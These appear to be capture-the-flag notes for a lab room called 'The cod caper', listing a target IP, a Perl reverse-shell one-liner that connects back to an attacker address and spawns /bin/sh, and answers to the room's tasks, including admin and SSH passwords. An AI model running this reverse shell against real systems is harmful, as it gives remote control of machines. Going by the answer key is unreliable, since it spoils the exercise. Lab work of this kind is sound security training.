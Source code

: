 # The cod caper

```
export IP=10.10.11.225
```

# Material needed

1. Interesting directory: /administrator.php

2. PHP reverse shell

```
perl -e 'use Socket;$i="10.8.193.113";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# Tasks

1. How many ports are open on the target machine? 2

2. What is the http-title of the web server? Apache2 Ubuntu Default Page: It works

3. What is the version of the web server? Apache/2.4.18

4. What is the name of the important file on the server? administrator.php

5. What is the admin username? pingudad

6. What is the admin password? secretpass

7. How many forms of SQLI is the form vulnerable to? 3

8. How many files are in the current directory? 3

9. Do i still have an account? yes

10. What is my ssh password? pinguapingu